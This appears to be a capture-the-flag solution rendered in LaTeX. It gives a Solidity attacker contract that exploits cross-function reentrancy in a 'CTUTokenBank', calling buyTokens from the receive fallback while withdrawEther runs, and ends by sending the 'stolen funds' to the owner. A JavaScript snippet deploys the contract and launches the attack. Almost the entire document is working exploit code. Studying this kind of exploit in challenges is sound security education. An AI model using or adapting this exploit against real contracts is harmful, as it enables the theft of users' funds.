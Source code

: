 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
  /**
  * @title CTUTokenBankAttacker
  * @notice Demonstrates a cross-function reentrancy exploit on CTUTokenBank.
  *         Even though 'withdrawEther' is guarded by a reentrancy lock, 'buyTokens'
  *         is wide open. The attacker calls 'withdrawEther', and during the
  *         fallback while the lock is active calls 'buyTokens' using the *old*
  *         balance that hasn't yet been subtracted.
  */
 contract CTUTokenBankAttacker {
     ICTUTokenBank public ctuBank;
     ICTUToken public ctuToken;
     address public owner;
     bool private alreadyCalled;
 
     constructor(address _ctuBank, address _ctuToken) {
         ctuBank = ICTUTokenBank(_ctuBank);
         ctuToken = ICTUToken(_ctuToken);
         owner = msg.sender;
         alreadyCalled = false;
     }
 
     function attack() external payable {
         require(msg.sender == owner, "Not owner");
         
         // 1) Deposit Ether into the bank
         ctuBank.depositEther{value: msg.value}();
 
         // 2) Start a withdrawal, which will send Ether back to this contract
         ctuBank.withdrawEther();
 
         // 3) Sell the CTU Tokens to the bank
         ctuToken.approve(address(ctuBank), ctuToken.balanceOf(address(this)));
         ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
 
         // 4) Withdraw the Ether again
         ctuBank.withdrawEther();
 
         // 5) Repeat the attack one more time
         alreadyCalled = false;
         ctuBank.depositEther{value: 5 ether}();
         ctuBank.withdrawEther();
         ctuToken.approve(address(ctuBank), 5 * 10 ** 18);
         ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
         ctuBank.withdrawEther();
 
         // 6) Transfer the stolen funds to the player
         payable(owner).transfer(address(this).balance);
     }

     receive() external payable {
         if (!alreadyCalled) {
             alreadyCalled = true;
             ctuBank.buyTokens();
         }
     }
 
 }
\end{lstlisting}
\end{minipage}

\noindent
JavaScript code to start the attack:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Deploy the attack contract
const attackerContractFactory = 
  await ethers.getContractFactory("CTUTokenBankAttacker", player);
const attackerContract = 
  await attackerContractFactory.deploy(bank.target, token.target);
// Execute the attack with 5 ETH
await attackerContract.attack({ value: 5n * 10n ** 18n });
\end{verbatim}
\end{minipage}
\end{document}
